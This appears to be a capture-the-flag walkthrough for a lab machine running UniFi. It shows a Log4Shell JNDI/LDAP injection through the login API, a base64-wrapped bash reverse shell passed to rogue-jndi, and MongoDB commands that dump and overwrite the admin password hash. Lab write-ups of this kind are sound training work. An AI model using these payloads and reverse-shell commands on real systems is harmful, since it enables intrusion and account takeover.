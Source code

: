 # Unified

#### Difficulty:<code>Very Easy</code>

#### Machine Tags:
  Vulnerability Assessment  
  Databases  
  Custom Applications  
  MongoDB  
  Java  
  Reconnaissance  
  Clear Text Credentials  
  Default Credentials  
  Code Injection  

#### Description
  Exploring effects of exploiting Log4j in UniFi. 

#### **Initial Enumeration**
  22/tcp   : ssh             : OpenSSH 8.2p1 Ubuntu
  6789/tcp : ibm-db2-admin?
  8080/tcp : http-proxy
  8443/tcp : sql/nagios-nsca : Nagios NSCA

#### **Port 8443**
  It appears taht port 8080 is redirecting to port 8443. 

  ![port 8080 redirect](./assets/redirect_8080.png)
  
  Finding the version number of the UniFi software, we can do a bit of research to find that 6.4.54 also known as <code>CVE-2021-44228</code>. This vulnerability involves OS command injection, so commands on the server that the application is running on can be used to compromise the application. The steps laid out in this exploit are to establish a reverse shell, then escalate privileges to access the database. 

#### **BurpSuite Proxy**
  Our first plan of attack is to find a way to upload a payload to the server to create a reverse shell. Using BurpSuite we can take a look at what the request looks like if we try to sign in with random credentials. 

  ![burpsuite signin unified](./assets/web_req_burpsuite.png)

  According to the CVE report, we can inject our payload through the <code>remember</code> field in the JSON being sent to the /api/login endpoint. The payload would look something like this:
  ```
    ${jndi:ldap://10.10.14.40}/{stuff}
  ```
  *JDNI* stands for *Java Naming and Directory Interface API* which locates resources and other program objects. A resource is a program object providing connections to systems like database servers and messaging systems. *LDAP* or *Lightweight Direcotry Access Protocol* is the industry standard application protocol for accessing and maintaining distributed directory information services over the Internet or Network. **Default port for LDAP is port 389**.

  Sending the payload above, we get the following response:

  ![burp payload response](./assets/burp_payload_response.png)

#### **Tcpdump**
  *Tcpdump* is a packet analyzer that runs in cli to display TCP/IP and other packets running through the network the computer is attached to. 
  ``` bash
    sudo tcpdump -i tun0 port 389

    # tcpdump : cli version of wireshark
    # -i      : selecting interface
    # port    : select port we are listening on
  ```
  Running the payload again still results in an error, however we can see that the target machine is trying to connect through LDAP port. 

#### **Creating the Payload**
  *Maven* is an IDE to create a structured project and compile into jar files. The applications that we create should help us to run <code>rogue-jndi</code> to start a local LDAP server. 
  ``` bash
    mvn package
  ```
  Use the command above to build the .jar from the cloned rogue-jndi project. To use *Rogue-JNDI* to construct server and pass the payload, base64 will be used to prevent encoding issues:
  ``` bash
    echo 'bash -c bash -i >&/dev/tcp/{your_ip}/{port_of_choice} 0>&1' | base64
  ```

  To pass the payload we can use the <code>--command</code> option:
  ``` bash
    java -jar {filename}.jar --command "bash -c {echo,{BASE64_STRING} | {base64,-d} | {bash,-i}" --hostname "{TUN0_IP}"
  ```

  After running Rogue-JNDI, the process starting will look like this: 
  ![rogue-jndi processes starting](./assets/rogue-jdni_start.png)

  The last link is the one to put into the payload to be captured by a listener like a server started on netcat. 

#### **Escalating Privileges**
  The first thought after gaining access to the target machine, is to look for the database and find a way to increase our permissions. For example, let's say we know that MongoDB is running on this machine, we can write:
  ``` bash
    ps aux | grep mongo

    # To check if Mongo is running on the target
  ```
  Running this on the target we find that MongoDB is running on port 27117. We can use the MongoDB CLI service to search for any hints of the administrator password for the application. A google shows us that the default UniFi database name is <code>ace</code>. A command for reading credential entries would look like this:
  ``` bash
    mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
  
    # --port PORT   : connect to PORT
    # ace           : database name
    # --eval SCRIPT : evaluate JSON
  ```
  Running this we find: 

  ![mongo utility output](./assets/mongoutil_output.png)

  Reading the JSON, we find that there is a password hash in the field <code>x_shadow</code> but it can not be cracked. So what we can do is change the hash to replace the admin password. We can do this using <code>mkpasswd</code>:
  ``` bash
    mkpasswd -m sha-512 Password1234
  ```
  *SHA-512* or *Secure Hash Algorithm 512* is a hashing algorithm to convert text of any length into a fixed-size string of 512 bits. SHA-512 hashes are different everytime they're generated due to *salting* to force uniqueness and increase complexity. Using the new hash, we can update the administrator entry in Mongo through:
  ``` bash
    mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"{SHA-512 HASH}"}})'
  ```
  Using the new password we can access the admin panel, find the password and SSH into the root account for the system. 
